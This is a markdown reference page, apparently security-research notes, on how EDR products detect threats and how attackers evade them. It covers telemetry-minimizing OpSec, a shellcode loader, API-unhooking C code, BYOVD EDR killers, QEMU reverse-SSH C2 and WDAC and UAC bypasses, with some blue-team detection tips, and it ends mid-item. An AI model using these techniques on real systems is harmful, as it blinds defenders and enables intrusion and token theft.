



# Endpoint Detection and Response

## Fundamentals

### AV vs EDR

**Antivirus (preventive approach)**:

- Static Analysis: Matching known signatures in files
- Dynamic Analysis: Limited behavioral monitoring/sandboxing
- Effective against known threats, weaker against advanced attacks

**EDR (proactive & investigative approach)**:

- Continuous endpoint monitoring
- Behavioral analysis at kernel level
- Anomaly detection and post-compromise visibility
- Prioritizes incident response and investigation

### Windows Execution Flow

Windows program execution follows a hierarchical flow:

1. **Applications** - User programs like firefox.exe
2. **DLLs** - Libraries providing Windows functionality without direct low-level access
3. **Kernel32.dll** - Core DLL for memory management, process/thread creation
4. **Ntdll.dll** - Lowest user-mode DLL that exposes the NT API interface to the kernel
5. **Kernel** - Core OS component with unrestricted hardware access

Example operation flow (creating a file):

1. Application invokes `CreateFile` function
2. CreateFile forwards to `NtCreateFile`
3. Ntdll.dll triggers `NtCreateFile` syscall
4. Kernel creates the file and returns a handle

## EDR Visibility

### EDR Architecture & Components

EDR solutions consist of multiple components creating a complex attack surface:

**Client-Side Components:**

- **User-space Applications** - Main agent processes and UI components
- **Kernel-space Drivers** - Filter drivers, network drivers, software drivers
- **Communication Interfaces** - IOCTLs, FilterConnectionPorts, ALPC, Named Pipes

**Component Communication Methods:**

- **Kernel-to-Kernel**: Exported functions, IOCTLs
- **User-to-Kernel**: IOCTLs, FilterConnectionPorts (minifilter-specific), ALPC
- **User-to-User**: ALPC, Named Pipes, Files, Registry

**Server-Side Components:**

- Cloud services and management consoles
- On-premise servers (some vendors)
- Custom protocols for agent-to-cloud communication

### EDR Visibility Methods

EDR solutions require extended visibility into system activities:

- Filesystem monitoring via mini-filter drivers
- Process/module loading via image load kernel callbacks
- Process/.NET modules/Registry/kernel object events via ETW Ti
- Network monitoring via NDIS and network filtering drivers

### Static Analysis

- Extract information from binary
  - Known malicious strings
  - Threat actor IP or domains
  - Malware binary hashes

### Dynamic Analysis

- Execute binary in a sandbox environment and observe it
  - Network connections
  - Registry changes
  - Memory access
  - File creation/deletion
- AntiMalware Scan Interface

### Behavioral Analysis

- Observe the binary as its executing, Hook into functions/syscalls
  - User actions
  - System calls
  - Kernel callbacks
  - Commands executed in the command line
  - Which process is executing the code
  - Event Tracing for Windows

## Detection Methods

### AV Signature Scanning

- Scans files using known signatures (YARA rules)
- Typically targets loaders and droppers
- Primarily static analysis of files on disk

### AV Emulation

- Runs suspicious programs in a simulated environment
- Triggers on behaviors without executing real code
- Used to detect obfuscated malware

### Usermode Hooks

- EDR hooks critical API calls in userspace (ntdll.dll)
- Monitors process creation, memory allocations, and network operations
- Allows for inspection before execution continues

### Kernel Telemetry

- Monitors events directly from the kernel
- Captures file, registry, process, and network operations
- Difficult to bypass as it operates at a lower level

### Memory Scanning

- Scans process memory for known signatures
- Triggers based on suspicious behavior
- Looks for shellcode, encryption, malicious strings
- **Modern Context:**
  - Attackers also scan process memory for sensitive artifacts like authentication tokens. Co‑pilot/IDE integrations, chat assistants, and browser extensions frequently cache Bearer/JWT tokens in memory.
  - Practical triage: search for `"Authorization: Bearer"`, `"eyJ"` (base64 JWT prefix), or provider‑specific headers; dump minimal pages to avoid tripping anti‑exfil rules.

## OpSec Quickstart (lab)

- Pre‑run
  - Network: block or sinkhole vendor EDR/XDR endpoints; disable cloud sample submission; tag lab hosts.
  - Mitigations snapshot: `Get-ProcessMitigation -System`; `Get-CimInstance Win32_DeviceGuard` (VBS/HVCI/KDP); `Get-MpPreference` (ASR/Cloud).
  - Events baseline: enable and tail `Microsoft-Windows-CodeIntegrity/Operational`, `Security (4688/4689)`, `Microsoft-Windows-Sense/Operational`, Sysmon (if present).
- Injection hygiene
  - Favor `MEM_IMAGE` mappings (ghosting/herpaderping/overwriting) over `MEM_PRIVATE` RWX to avoid 24H2 hotpatch loader checks.
  - Satisfy XFG/CET: jump via import thunks; ensure IBT `ENDBR64` at indirect targets; maintain plausible stacks for syscalls (replicate `ntdll` frames).
  - Avoid noisy APIs: split `alloc/write/exec` over time; prefer APC+`NtContinue` pivots; keep thread contexts consistent.
- Telemetry minimization
  - Jitter long‑lived channels; prefer named‑pipe/HTTP3 over noisy HTTP1; throttle upload intervals.
  - Use COM/runspace over PowerShell console to reduce script‑block logs; avoid AMSI‑flagged prologues.
- Cleanup
  - Remove services, tasks, drivers; restore SDDL; revert registry policy flips (WDAC/CI/Defender) and re‑enable protections.
  - Purge user caches (Recent Files, Jump Lists) and ETW providers enabled during tests.

### Memory Regions

- Monitors suspicious memory allocation patterns
- Flags RWX (read-write-execute) regions
- Tracks regions that change from RW to RX

### Callstack Analysis

- Examines the call stack of suspicious functions
- Verifies legitimate origin of critical operations
- Detects unusual function call chains

### Hook Implementation

EDRs can't directly hook kernel memory due to PatchGuard, so they:

1. Inject their DLL into newly spawned processes
2. Position before malware can block/unmap it
3. Adjust `_PEB`, hook process's module `IAT`/Imports, and loaded libraries `EAT`/Exports
4. Implement trampolines, hooks, and detours

### ETW Monitoring

- EDR maintains ring-buffer with per-process activities produced by ETW Ti:
  - Processes, command lines, parent-child relationships
  - File/Registry/Process open/write operations
  - Created threads, their call stacks, starting addresses
  - Native functions called
  - Created .NET AppDomains, loaded .NET assemblies, static class names, methods

#### Event Correlation

- High fidelity alert (such as LSASS open) triggers correlation of collected activities
- High memory/resources cost limits preservation of events to a time window
- ML/AI may compute risk scores and isolate TTP (Tactics, Techniques, and Procedures)

#### Shellcode Loaders

Shellcode loaders typically follow this pattern:

```c
char *shellcode = "\xAA\xBB...";
char *dest = VirtualAlloc(NULL, 0x1234, 0x3000, PAGE_READWRITE);
memcpy(dest, shellcode, 0x1234)
VirtualProtect(dest, 0x1234, PAGE_EXECUTE_READ, &result)
(*(void(*)())(dest))();  // jump to dest: execute shellcode
```

## Attacking EDR Infrastructure Directly

### Driver Attack Surface Analysis

A systematic approach to analyzing EDR drivers from a low-privileged user perspective:

#### 1. Driver Discovery

**Static Analysis:**

```powershell
# List loaded drivers
driverquery /v
Get-WindowsDriver -Online -All

# Using WMI
Get-WmiObject Win32_PnPSignedDriver | Select-String "EDR_Vendor"
```

**Dynamic Analysis:**

```powershell
# Using sc command
sc query type= driver state= all

# Process Monitor filtering
# Filter: Process and Thread Activity -> Show Image/DLL
```

#### 2. Interface Enumeration

**Device Driver Interfaces:**

- Listed in WinObj under "GLOBAL??" as Symbolic Links
- Accessible via `\\.\DEVICE_NAME` format
- Tools: WinObj (Sysinternals), DeviceTree (OSR - discontinued)

**Mini-Filter Driver Interfaces:**

- Listed in WinObj as "FilterConnectionPort" objects
- Communication via `FltCreateCommunicationPort` API
- Example paths: `\CyvrFsfd`, `\SophosPortName`

#### 3. Access Permission Analysis

**Device Driver ACL Checking:**

```cpp
// Using DeviceTree (preferred) or kernel debugger
// WinDbg example:
!object \Device\DeviceName
!sd <SecurityDescriptor_Address> 1
```

**FilterConnectionPort ACL Checking:**

```powershell
# Using NtObjectManager (James Forshaw)
Get-FilterConnectionPort -Path "\FilterPortName"
# Error indicates access denied

# In WinDbg:
!object \FilterPortName
dx (((nt!_OBJECT_HEADER*)0xAddress)->SecurityDescriptor & ~0xa)
!sd <SecurityDescriptor_Address> 1
```

#### 4. Interface Functionality Analysis

**Device Driver Communication:**

- Primary method: DeviceIoControl() → IRP_MJ_DEVICE_CONTROL
- IOCTL codes differentiate between functions
- May include process ID verification for authorization

**FilterConnectionPort Communication:**

- Uses callback functions: ConnectNotifyCallback, DisconnectNotifyCallback, MessageNotifyCallback
- Similar to IOCTL dispatch with different message types

#### 5. Common EDR Driver Interfaces

**Examples of accessible interfaces found in research:**

**Palo Alto Cortex XDR:**

- **Device Interfaces**:
  - `\\.\PaloEdrControlDevice` (tedrdrv.sys) - ~20 IOCTL handlers with various functionality
  - `\\.\CyvrMit` (cyvrmtgn.sys) - Legacy Cyvera interface
  - `\\.\PANWEdrPersistentDevice11343` (tedrpers-<version>.sys) - Persistent device interface
- **FilterConnectionPort**: Various ports with different ACLs
- **Research Findings**:
  - IOCTL 0x2260D8 returns 3088 bytes of statistics data (accessible to low-privileged users)
  - IOCTL 0x2260D0 provides initialization status information
  - Some interfaces accessible due to injected DLL architecture requiring broad permissions

**Sophos Intercept X:**

- **FilterConnectionPort**: `\SophosPortName`
- **Analysis Results**: Accessible interfaces for legitimate process communication but limited attack surface

#### 6. Why EDRs Have Open ACLs

EDRs often use an architecture where:

- Agent injects DLLs into processes (including low-privileged ones like `word.exe`)
- Injected DLLs communicate directly with drivers via IOCTLs
- Drivers cannot restrict based solely on process privilege level
- Results in more permissive ACLs to accommodate legitimate injected processes

## Evasion Techniques

### Memory-Based Evasion

#### EDR-Freeze

A novel technique exploiting Windows Error Reporting (WER) to temporarily disable EDR/AV processes:

##### Mechanism

- Leverages `WerFault.exe` and Windows Error Reporting infrastructure
- Suspends all threads in target EDR/AV processes indefinitely
- No kernel-mode access or driver exploitation required
- Operates entirely from user-mode context

##### Technical Implementation

- Trigger WER fault injection on target security process
- WER suspends all threads for crash dump generation
- Attacker maintains suspended state without completing crash handling
- Target process remains alive but non-functional

##### Advantages

- No elevation required in default WER configurations
- Avoids detection heuristics for process termination
- Temporary disabling without unloading kernel drivers
- Minimal forensic footprint compared to driver killing

##### Limitations

- Effectiveness varies by Windows version and WER configuration
- Some EDRs implement anti-suspension protections
- Temporary nature requires continuous re-application
- May generate WER event logs exposing the technique

> [!TIP]
> Blue team detection: Alert on `PssSuspendProcess` / `PssSuspendThread` API calls combined with `OpenProcess` targeting EDR process IDs, or monitor Event ID 1001 (Windows Error Reporting) with unusual source processes.

#### Memory Encryption

- Encrypts shellcode in memory when not in use
- Popular techniques:
  - SWAPPALA / SLE(A)PING
  - Thread Pool / Pool Party
  - Gargoyle
  - Ekko
  - Cronos
  - Foliage

#### Sleep Obfuscation

- ROP-Styles sleep obfuscations
  - [Ekko](https://github.com/Cracked5pider/Ekko)
  - [FOLIAGE](https://github.com/y11en/FOLIAGE)
  - these setup `_CONTEXT` in advance so that `EIP/RIP` points to native API
  - and then schedule APC with `NtContinue` to jump to that requested API

#### Secure Enclaves (VBS)

- Virtualization-Based Security (VBS) enclaves provide an isolated user-mode TEE that even kernel-mode sensors cannot inspect under normal conditions.
- Deprecation/support scope (Microsoft):
  - Windows 11 ≤ 23H2: VBS enclaves are deprecated; existing enclaves signed with the legacy EKU (OID `1.3.6.1.4.1.311.76.57.1.15`) continue to run until re-signed. New enclave signing requires updated EKUs and is not supported on these versions.
  - Windows 11 24H2+ and Windows Server 2025: VBS enclaves are supported with new EKUs.
- Security fix: CVE-2024-49076 (VBS Enclave EoP) — ensure December 2024+ updates are applied.
- Signing constraints: Only Microsoft-signed enclave DLLs or DLLs signed via Azure Trusted Signing load; test- or self-signed DLLs are rejected.
- Architecture summary:
  - Enclave host app (VTL0) invokes enclave APIs; enclave DLL executes in isolated user mode (VTL1) with restricted API surface; Secure Kernel validates integrity.
- Offensive considerations (lab): viable for secure storage of secrets/implants during sleep and for hiding sensitive code paths; limited by restricted API surface and signing requirements.
- Practical notes:
  - On unsupported SKUs/versions, enclave APIs may appear and return `STATUS_FEATURE_DEPRECATED`.
  - Prefer testing on Windows 11 24H2+/Server 2025 with proper signing.

#### Malware Virtualization

- Malware virtualization provides advanced evasion against modern EDR:
  - Embeds a custom virtual machine to execute bytecode instead of native code
  - Makes static and dynamic analysis difficult through instruction obfuscation
  - Prevents detection of instruction patterns and behavior prediction

- Implementation advantages:
  - Conceals malicious instructions from EDR monitoring
  - Protects against code patching attempts
  - Hinders behavioral analysis through custom execution model

- Multi-VM approach further evades detection:
  - Multiple VMs running concurrently disrupts heuristic pattern detection
  - Each VM creates distinct event patterns, confusing EDR correlation
  - "ETW noise" technique to blend with legitimate activity

- Deployment strategies:
  - Bytecode polling - periodically fetching new instructions from C2
  - Using transpilers to convert compiled binaries to custom bytecode
  - Applying polymorphic engine to mutate VM code itself

- Successfully evaded detection for:
  - Initial shellcode/bytecode execution (subsequent actions still monitored)
  - Specific AV/EDR patching routines (may require updates per product)
  - Initial C2 communication (ongoing traffic patterns may be detected)
  - Specific AD queries (patterns of queries can still be flagged)

### QEMU-Based Virtualization Evasion

- **Concept**: Deploy portable QEMU VMs to execute malicious code within guest OS, avoiding host-based EDR detection
- **Technical Implementation**:
  - Portable QEMU deployment via ZIP archives containing VM binaries and configurations
  - Tiny Core Linux as lightweight guest OS (minimal footprint ~50MB)
  - VBS scripts for automated VM deployment and execution
  - Custom hostname generation for VM identification and tracking

- **Configuration Examples**:

  ```vbs
  # VBS deployment script
  Set shell = CreateObject("WScript.Shell")
  shell.Run "tc.exe -m 512 -hda tc.qcow2 -netdev user,id=net0 -device e1000,netdev=net0"
  ```

  ```conf
  # QEMU configuration file (upd.conf)
  -m 512
  -hda tc.qcow2
  -netdev user,id=net0
  -device e1000,netdev=net0
  ```

- **Persistence Mechanisms**:
  - `bootlocal.sh` modifications for startup execution
  - `filetool.lst` configuration for file persistence across reboots
  - SSH service installation and configuration within guest VM
  - Reverse SSH tunnels over port 443 for C2 communication

- **Advanced Techniques**:
  - Anti-forensic SSH configuration (`StrictHostKeyChecking=no`, known hosts to `/dev/null`)
  - SSL/NoSSL tool deployment for encrypted communications
  - Randomized hostname generation to mask VM tracking
  - Port 443 tunneling to blend with HTTPS traffic

- **Detection Evasion Benefits**:
  - Guest VM operations invisible to host-based EDR sensors
  - VM network traffic appears as legitimate application activity
  - File operations contained within guest filesystem
  - Process execution isolated from host monitoring

- **Limitations & Considerations**:
  - Requires administrative privileges for some QEMU operations
  - VM resource consumption may be detectable
  - Network traffic patterns might still trigger detection
  - Initial VM deployment artifacts remain on host filesystem

### Hook Evasion

#### Unhooking

- malware overwrites EDR hooks before executing payload
- you can obtain original `ntdll.dll` from disk and overwrite it inside your own process
- or you can start the malware process in suspended state and copy the clean `ntdll.dll` from you own memory before executing
  - **Modern Context:** While historically effective, relying solely on replacing `ntdll.dll` or its hooked sections is less reliable. Modern EDRs often use kernel callbacks, ETW, and other telemetry sources that are not bypassed by user-mode unhooking alone. This technique is often used in conjunction with others.
    > [!CAUTION]
    > accessing `ntdll.dll` file can be flagged, API call to overwrite it also might be hooked by EDR

##### API Unhooking for AV Bypass

- Most EDR/AVs like BitDefender hook Windows APIs by replacing first bytes with `JMP` instructions (opcode `0xE9`)
- **Modern Context:** Similar to general unhooking, patching specific API prologues can bypass simple user-mode hooks, but comprehensive EDR solutions have additional detection layers (kernel events, behavioral analysis) that may still detect the malicious activity following the unhook.
- How to identify hooked APIs:
  - Create a test program that calls potentially hooked APIs
  - Examine first byte of API function using a debugger (like x64dbg)
  - If first byte is `0xE9`, the function is hooked
- Common hooked APIs:
  - `CreateRemoteThread`/`CreateRemoteThreadEx`
  - `VirtualAllocEx`
  - `WriteProcessMemory`
  - `OpenProcess`
  - `RtlCreateUserThread`
- Unhooking approach:
  1. Store original bytes of target APIs from clean system
  2. Identify hooked functions in memory
  3. Restore original bytes using `WriteProcessMemory` on the current process
  4. Execute malicious code using now-unhooked APIs
- Sample implementation:

  ```c
  // Find address of target API function
  HANDLE kernelbase_handle = GetModuleHandle("kernel32");
  LPVOID CreateRemoteThread_address = GetProcAddress(kernelbase_handle, "CreateRemoteThread");

  // Check if function is hooked (first byte is 0xE9)
  byte first_byte = (byte)*(char*)CreateRemoteThread_address;
  if (first_byte == 0xe9) {
      // Replace with original bytes
      char original_bytes[] = "\x4C\x8B\xDC\x48\x83"; // Original prologue bytes
      WriteProcessMemory(GetCurrentProcess(), CreateRemoteThread_address, original_bytes, 5, NULL);
  }
  ```

- This technique is effective but may require separate execution for the final payload since some AVs block executing immediately after unhooking. **Modern EDRs might still correlate the unhooking activity with subsequent suspicious actions.**

#### Unhooking Tools

- [unhook BOF](https://github.com/rsmudge/unhook-bof) - module refreshing (less reliable now **due to alternative EDR telemetry sources**)
- [Unhookme](https://github.com/mgeeky/UnhookMe) - dynamic unhooking

#### Direct System Calls

- malware circumvents hook in system DLL by directly system calling into kernel
- you can implement own syscall in assembly and bypass `ntdll.dll` hooks
- or obtain `SSN`(System Service Number) dynamically and call them(can be done via [SysWhispers2](https://github.com/jthuraisamy/SysWhispers2))
  - Direct syscalls bypass user-mode hooks in `ntdll.dll` but do not inherently bypass kernel-level monitoring (e.g., via kernel callbacks or ETW). EDRs are increasingly monitoring for patterns indicative of direct syscall usage itself (e.g., unusual call stack origins for syscalls).
    > [!CAUTION]
    > having syscall assembly instructions can be flagged, also this only helps the loader to evade the EDR not the malware itself
  - Major EDR vendorsnow flag **non‑ntdll syscall sites**; consider **return‑address replication gadgets** to re‑insert a plausible `ntdll` frame before the transition.

> [!CAUTION]
> Some EDRs flag syscalls originating outside `ntdll.dll`. Maintaining plausible stacks/return frames may be required to avoid heuristics.

##### Direct Syscall Tools

Bypasses user-mode hooks but not kernel monitoring. Requires System Service Dispatch Table (SSDT) index:

- [FreshyCalls](https://github.com/crummie5/FreshyCalls) - sorting system call addresses
- [SysWhispers2](https://github.com/jthuraisamy/SysWhispers2) - modernized syscall resolution
- [SysWhispers3](https://github.com/klezVirus/SysWhispers3) - adds x86/Wow64 support
- [Runtime Function Table](https://www.mdsec.co.uk/2022/04/resolving-system-service-numbers-using-the-exception-directory/) - reliable SSN computation

#### Indirect System Calls

- malware uses code fragments in kernel DLL without calling the hooked functions in those DLL
- prepare the system call in assembly then find a syscall instruction in `ntdll.dll` and jump to that location
  - **Modern Context:** Similar to direct syscalls, this bypasses user-mode hooks but not necessarily kernel-level monitoring. Finding and jumping to existing `syscall` instructions can be less suspicious than embedding raw syscall stubs, but the subsequent kernel activity is still visible.
    > [!TIP]
    > this is preferred,you can also boost evasion techniques by hiding inside a `.dll`

#### Kernel‑Mode EDR Killers (BYOVD)

- **Bring‑Your‑Own‑Vulnerable‑Driver (BYOVD)** attacks load legitimately signed but exploitable drivers—examples include **rtcore64.sys**, **iqvw64e.sys**, and **terminator.sys**—to execute privileged code inside the kernel.
- Typical payload actions
  - Patch or unregister kernel‑mode notify callbacks (`PsSetCreateProcessNotifyRoutine`, `ObRegisterCallbacks`) to blind user‑mode EDR components.
  - Overwrite or unload _WdFilter.sys_ and other sensor drivers, fully disabling Defender or third‑party agents.
- Public toolchains such as **Terminator**, **kdmapper**, and **EDRSensorDisabler** automate these steps.
- Case study: Lenovo `LnvMSRIO.sys` (CVE‑2025‑8061). Exposes physical memory/MSR read‑write primitives to low‑privileged users; can overwrite MSR_LSTAR and pivot to Ring‑0 payload, then patch/unregister callbacks to blind EDR.

> [!TIP]
> The vulnerable‑driver blocklist (`DriverSiPolicy.p7b`) is **enabled by default** on Windows 11 22H2+ and refreshed every Patch Tuesday. Keep HVCI/KDP enabled so attacker drivers cannot patch protected code pages, and enable Hardware‑Enforced Stack Protection (CET/Shadow Stack) on Windows 11 24H2 to break call‑stack spoofing.

> [!NOTE]
> Because the blocklist is on by default and updated frequently, a BYOVD chain now often needs **two** vulnerable drivers: one to disable Secure Boot or flip `CiOptions`, and a second to perform the EDR‑killer actions before the next blocklist refresh.

### User-Mode Application Whitelisting Bypass

#### Exploiting Vulnerable Trusted Applications

Windows Defender Application Control (WDAC) and similar application whitelisting solutions can be bypassed by leveraging vulnerabilities in trusted, signed applications. A notable technique involves exploiting N-day vulnerabilities in the V8 JavaScript engine within Electron-based applications.

- **Concept (Bring Your Own Vulnerable Application - BYOVA)**:
  - A trusted, signed Electron application (e.g., an older version of VSCode) with a known V8 vulnerability is used as a carrier.
  - The application's `main.js` (or equivalent) is replaced with a V8 exploit that executes a native shellcode payload.
  - If the application is whitelisted, WDAC allows it to run, inadvertently executing the malicious shellcode.
- **Advantages**:
  - Achieves native shellcode execution, overcoming limitations of pure JavaScript execution in some backdoored Electron app scenarios.
  - Shellcode runs in a browser-like process context, where behaviors like Read-Write-Execute (RWX) memory regions (due to JIT compilers) are common and may appear less suspicious to EDRs.
- **Exploit Development & Operationalization Challenges**:
  - **V8 Version Targeting**: Electron's V8 often lags behind Chrome's and includes backported security patches. Vulnerabilities must be chosen that were patched _after_ the target application's Electron version was frozen. Electron's cherry-picked patches should be reviewed.
  - **Debugging**: Building the specific V8 version (e.g., using `d8` debug shell with `--allow-natives-syntax` for `%DebugPrint()`) is crucial for understanding memory layouts and adapting exploits.
  - **Offset Inconsistencies**: Hardcoded offsets in public exploits (often Linux-based) need adjustment for the target V8 version and OS (Windows). Function pointer offsets for overwriting can even vary between Windows versions.
    - _Solution for offset variation_: Launch the exploit multiple times in child processes, each trying a different potential offset. The parent process monitors for success (e.g., mutex creation by payload).
  - **Sandbox Escape**: Public V8 exploits might use sandbox escape techniques already patched (cherry-picked) in the target Electron V8 version, requiring new or modified escapes.
  - **JIT Compiler Interference (e.g., V8 TurboFan)**:
    - Optimizations can consolidate repeated instruction sequences (e.g., multiple floating-point values), affecting shellcode smuggling. Workarounds include compact shellcode or varying instruction positions.
    - Copying large shellcode payloads can be problematic. Workaround: multiple smaller copy loops or using a stager payload that fetches the main payload.
  - **Payload Obfuscation**: Obfuscate the JavaScript exploit (e.g., in `main.js`) to hinder analysis. Re-obfuscating per deployment can help avoid signature-based detection.
- **Defense & Future Considerations**:
  - Electron's experimental integrity fuse feature, if enabled by developers, can verify the integrity of application files (including `main.js`) at runtime, potentially thwarting this technique by exiting if tampering is detected.
  - Older application versions without this fuse remain vulnerable.

### Process Manipulation

#### Early Cascade Injection

- Novel process injection technique targeting user-mode process creation
- Combines elements of Early Bird APC with EDR-Preloading
- Avoids queuing cross-process APCs while maintaining minimal remote process interaction
- Works by:
  - Targeting processes during the transition from kernel-mode to user-mode (`LdrInitializeThunk`)
  - Leveraging callback pointers (like `g_pfnSE_DllLoaded`) during Windows process creation
  - Executing malicious code before EDR detection measures can initialize
- Advantages:
  - Operates before EDRs can initialize their hooks and detection measures
  - Particularly effective against EDRs that hook `NtContinue` or use delayed initialization
  - Avoids ETW telemetry that traditional injection techniques trigger
  - Minimal remote process interaction reduces detection footprint
  - More stealthy than traditional techniques like DLL hijacking or direct syscalls
- Key insight: EDRs typically load their detection measures after the `LdrInitializeThunk` function executes, providing a window of opportunity for code execution before security measures initialize
- watch for early `NtCreateThreadEx` inside `LdrInitializeThunk`

#### Early Startup Bypass

**Concept**: Execute malware before the EDR's user-mode component fully initializes, creating a window of opportunity for undetected execution.

**Implementation**:

- Target the gap between kernel driver loading and user-mode agent initialization
- Execute payload during system startup before EDR hooks are established
- Leverage services that start before EDR components

**Research Findings (Cortex XDR)**:

- Successfully executed Mimikatz with `lsadump::sam` without detection during early startup
- EDR kernel drivers may be loaded but user-mode hooks not yet established
- Timing window varies depending on system performance and EDR implementation

**Detection Evasion**:

- Creates process activity before EDR monitoring is fully operational
- Avoids user-mode hooks that haven't been established yet
- Kernel-level monitoring may still detect activity depending on driver initialization order

**Limitations**:

- Requires precise timing and understanding of EDR startup sequence
- May not work against EDRs with early kernel-level monitoring
- Window of opportunity may be brief on fast systems

#### Waiting Thread Hijacking (WTH)

- A stealthier version of classic Thread Execution Hijacking
- Intercepts the flow of a waiting thread and misuses it for executing malicious code
- Avoids suspicious APIs like `SuspendThread`/`ResumeThread` and `SetThreadContext` that trigger most alerts
- Required handle access:
  - For target process: `PROCESS_VM_OPERATION`, `PROCESS_VM_READ`, `PROCESS_VM_WRITE`
  - For target thread: `THREAD_GET_CONTEXT`
- Uses less monitored APIs:
  - `NtQuerySystemInformation` (with `SystemProcessInformation`)
  - `GetThreadContext`
  - `ReadProcessMemory`
  - `VirtualAllocEx`
  - `WriteProcessMemory`
  - `VirtualProtectEx`
- Implementation can be further obfuscated by splitting steps across multiple functions to evade behavioral signatures
- Primarily bypasses EDRs that focus on detecting specific API calls rather than behavioral patterns
- Effective against EDRs that are restrictive about remote execution methods but more lenient with allocations and writes
- Suitable for hiding the point at which implanted code was executed

#### PPID Spoofing

- Creates process with fake parent process ID
- Hides true process creation chain
- Makes process tree analysis misleading

#### Process Hiding

A technique to hide processes from EDR monitoring by manipulating the Interrupt Request Level (IRQL):

- Raise the IRQL of current CPU core
- Create and queue Deferred Procedure Calls (DPCs) to raise the IRQL of other cores
- Perform sensitive task (for example, hiding process)
- Signal DPCs in other cores to stop spinning and exit
- Lower IRQL of current core back to original

```c
irql = RaiseIRQL();
dpcPtr = AcquireLock();
do_stuff();
ReleaseLock(dpcPtr);
LowerIRQL(irql);
```

This approach temporarily prevents EDR from monitoring the process during the critical operations by operating at an elevated privilege level.

> [!NOTE]
> HVCI-enabled 23H2 kernels may crash when raising IRQL this way. Safer alternative: kernel-driver patching of `PsLookupProcessByProcessId`.

#### UAC Bypass via Intel ShaderCache Directory

- Concept: Exploits weak permissions (`Authenticated Users: Full Control`) on the `Intel\ShaderCache` directory (`%LOCALAPPDATA%\LocalLow\Intel\ShaderCache`) combined with the behavior of auto-elevated processes (like `taskmgr.exe`) writing to this location.
- Mechanism:
  1.  Clear Directory: Requires aggressively terminating processes holding handles (`explorer.exe`, `sihost.exe`, etc.) and deleting files within the `ShaderCache` directory. Permissions might need adjustment (`icacls`) to allow deletion. Launching `taskmgr.exe` briefly (with a timeout) helps identify recently written filenames and can trigger writes needed for the exploit.
